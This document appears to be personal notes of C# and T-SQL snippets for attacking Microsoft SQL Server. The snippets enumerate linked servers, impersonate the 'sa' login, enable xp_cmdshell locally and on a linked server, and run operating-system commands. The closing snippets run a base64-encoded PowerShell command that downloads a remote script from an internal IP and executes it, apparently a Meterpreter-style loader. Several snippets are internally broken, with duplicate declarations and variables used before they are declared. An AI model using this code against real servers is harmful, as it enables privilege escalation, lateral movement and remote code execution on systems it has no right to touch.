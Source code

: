 

################################################################



### above is all about getting information about Linked SQL Servers

###################################################################


String sqlServer = "sql05.tricky.com";
String database = "master";
String conString = "Server = " + sqlServer + "; Database = " + database + "; Integrated Security = True;";
SqlConnection con = new SqlConnection(conString);


try
{
    con.Open();
    Console.WriteLine("Auth success!");
}
catch
{
    Console.WriteLine("Auth failed");
    Environment.Exit(0);
}

String execCmd = "EXEC sp_linkedservers;";

String execCmd = "select myuser from openquery(\"sql07\", 'select SYSTEM_USER as myuser');";
String localCmd = "select SYSTEM_USER;";
SqlCommand command = new SqlCommand(localCmd, con);
SqlDataReader reader = command.ExecuteReader();

reader.Read();
Console.WriteLine("Executing as the login on sql05: " + reader[0]);
reader.Close();

command = new SqlCommand(execCmd, con);
reader = command.ExecuteReader();

reader.Read();
Console.WriteLine("Executing as the login on sql07: " + reader[0]);
reader.Close();

con.Close();




############################


#r "c:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll"
using System;
using System.Data.SqlClient;
String sqlServer = "web06";
String database = "master";
String conString = "Server = " + sqlServer + "; Database = " + database + "; Integrated Security = True;";
SqlConnection con = new SqlConnection(conString);
try
{
    con.Open();
    Console.WriteLine("Auth success!");
}
catch
{
    Console.WriteLine("Auth failed");
    Environment.Exit(0);
}
String querylogin = "SELECT SYSTEM_USER;";
SqlCommand command = new SqlCommand(querylogin, con);
SqlDataReader reader = command.ExecuteReader();
Console.WriteLine("Before Impersonation...");
reader.Read();
Console.WriteLine("Executing in context as: " + reader[0]);
reader.Close();

String executeas = "EXECUTE AS LOGIN = 'sa'";

command = new SqlCommand(executeas, con);
reader = command.ExecuteReader();
reader.Close();

Console.WriteLine("After Impersonation...");

command = new SqlCommand(querylogin, con);
reader = command.ExecuteReader();
reader.Read();
Console.WriteLine("Executing in context as: " + reader[0]);
reader.Close();
String execCmd = "EXEC sp_linkedservers;";
command = new SqlCommand(execCmd, con);
reader = command.ExecuteReader();
while (reader.Read())
{
    Console.WriteLine("Linked SQL server: " + reader[0]);
}
reader.Close();

con.Close();


#######################################

#r "c:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll"
using System;
using System.Data.SqlClient;

String sqlServer = "web06";
String database = "master";
String conString = "Server = " + sqlServer + "; Database = " + database + "; Integrated Security = True;";
SqlConnection con = new SqlConnection(conString);
try
{
    con.Open();
    Console.WriteLine("Auth success!");
}
catch
{
    Console.WriteLine("Auth failed");
    Environment.Exit(0);
}
String impersonateUser = "EXECUTE AS LOGIN = 'sa';";
String enable_xpcmd = "EXEC sp_configure 'show advanced options', 1;RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; ";
String execCmd = "EXEC xp_cmdshell whoami";

SqlCommand command = new SqlCommand(enable_xpcmd, con);
SqlDataReader reader = command.ExecuteReader();
reader.Close();
command = new SqlCommand(execCmd, con);
reader = command.ExecuteReader();
reader.Read();
Console.WriteLine("Result of command is: " + reader[0]);
reader.Close();
con.Close();






################################

using System;
using System.Data.SqlClient;
String sqlServer = "sql03";
String database = "master";
String conString = "Server = " + sqlServer + "; Database = " + database + "; Integrated Security = True;";
SqlConnection con = new SqlConnection(conString);
try
{
    con.Open();
    Console.WriteLine("Auth success!");
}
catch
{
    Console.WriteLine("Auth failed");
    Environment.Exit(0);
}

String enable_xpcmd = "EXECUTE AS LOGIN = 'sa';";
String execCmd = "EXEC sp_linkedservers;";

command = new SqlCommand(enable_xpcmd, con);
reader = command.ExecuteReader();
reader.Close();
SqlCommand command = new SqlCommand(execCmd, con);
SqlDataReader reader = command.ExecuteReader();
reader.Read();
Console.WriteLine("Result of command is: " + reader[0]);
reader.Close();
con.Close();

########################

String sqlServer = "web06";
String database = "master";
String conString = "Server = " + sqlServer + "; Database = " + database + "; Integrated Security = True;";
SqlConnection con = new SqlConnection(conString);

try
{
    con.Open();
    Console.WriteLine("Auth success!");
}
catch
{
    Console.WriteLine("Auth failed");
    Environment.Exit(0);
}

//String execCmd = "EXEC sp_linkedservers;";

String execCmd = "select version from openquery(\"sql03\", 'select @@version as version');";
SqlCommand command = new SqlCommand(execCmd, con);
SqlDataReader reader = command.ExecuteReader();
while (reader.Read())
{
    Console.WriteLine("Linked SQL server: " + reader[0]);
}
reader.Close();

con.Close();

#######################

String sqlServer = "web06";
String database = "master";
String conString = "Server = " + sqlServer + "; Database = " + database + "; Integrated Security = True;";
SqlConnection con = new SqlConnection(conString);


try
{
    con.Open();
    Console.WriteLine("Auth success!");
}
catch
{
    Console.WriteLine("Auth failed");
    Environment.Exit(0);
}

//String execCmd = "EXEC sp_linkedservers;";
String enable_xpcmd = "EXECUTE AS LOGIN = 'sa';";

command = new SqlCommand(enable_xpcmd, con);
reader = command.ExecuteReader();
reader.Close();
String execCmd = "select myuser from openquery(\"sql03\", 'select SYSTEM_USER as myuser');";
String localCmd = "select SYSTEM_USER;";
SqlCommand command = new SqlCommand(localCmd, con);
SqlDataReader reader = command.ExecuteReader();

reader.Read();
Console.WriteLine("Executing as the login on APPSRV01: " + reader[0]);
reader.Close();

command = new SqlCommand(execCmd, con);
reader = command.ExecuteReader();

reader.Read();
Console.WriteLine("Executing as the login on sql03: " + reader[0]);
reader.Close();

con.Close();

##########################

String sqlServer = "web06";
String database = "master";
String conString = "Server = " + sqlServer + "; Database = " + database + "; Integrated Security = True;";
SqlConnection con = new SqlConnection(conString);
con.Open();

String enable_xpcmd = "EXECUTE AS LOGIN = 'sa';";
String enable_rpc_out = "EXEC sp_serveroption 'SQL03', 'rpc out', 'true';";
String enableadvopptions = "EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT SQL03;";
String enablexpcmdshell = "EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT SQL03;";
String execCmd = "EXEC('xp_cmdshell ''cmd /c ping 192.168.49.65'';') AT SQL03;";

SqlCommand command = new SqlCommand(enable_xpcmd, con);
SqlDataReader reader = command.ExecuteReader();
reader.Close();

command = new SqlCommand(enable_rpc_out, con);
reader = command.ExecuteReader();
reader.Close();

command = new SqlCommand(enableadvopptions, con);
reader = command.ExecuteReader();
reader.Close();

command = new SqlCommand(enablexpcmdshell, con);
reader = command.ExecuteReader();
reader.Close();

command = new SqlCommand(execCmd, con);
reader = command.ExecuteReader();
reader.Close();
con.Close();
#########################

String sqlServer = "web06";
String database = "master";
String conString = "Server = " + sqlServer + "; Database = " + database + "; Integrated Security = True;";
SqlConnection con = new SqlConnection(conString);

con.Open();
Console.WriteLine("Auth success!");

String enable_xpcmd = "EXECUTE AS LOGIN = 'sa';";
SqlCommand command = new SqlCommand(enable_xpcmd, con);
SqlDataReader reader = command.ExecuteReader();
reader.Close();

String enableadvopptions = "SELECT 1 FROM openquery(\"sql03\",'SELECT 1; EXEC sp_configure ''show advanced options'', 1; RECONFIGURE;')";
command = new SqlCommand(enableadvopptions, con);
reader = command.ExecuteReader();
reader.Close();

command = new SqlCommand(enablexpcmdshell, con);
reader = command.ExecuteReader();
reader.Close();
String enablexpcmdshell = "SELECT 1 FROM openquery(\"sql03\",'SELECT 1;EXEC sp_configure ''xp_cmdshell'', 1; RECONFIGURE;')";

String execCmd = "SELECT 1 FROM openquery(\"sql03\",'SELECT 1;EXEC xp_cmdshell ''cmd /c ping 192.168.49.65'';')";
//String execCmd = "SELECT 1 FROM openquery(\"sql03\",'SELECT 1;EXEC xp_cmdshell ''powershell.exe -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQAOQAuADYANQAvAG0AZQB0AF8ANgA0AGEAbQBzAGkALgB0AHgAdAAnACkAIAB8ACAASQBFAFgA'';')";
command = new SqlCommand(execCmd, con);
reader = command.ExecuteReader();
reader.Close();
con.Close();
#########################

EXECUTE AS LOGIN = 'sa';

EXEC ('sp_configure ''show advanced options'', 1; reconfigure;') AT SQL03;
EXEC ('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT SQL03;
EXEC ('xp_cmdshell ''powershell.exe -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQAOQAuADYANQAvAG0AZQB0AF8ANgA0AGEAbQBzAGkALgB0AHgAdAAnACkAIAB8ACAASQBFAFgA'';') AT SQL03;
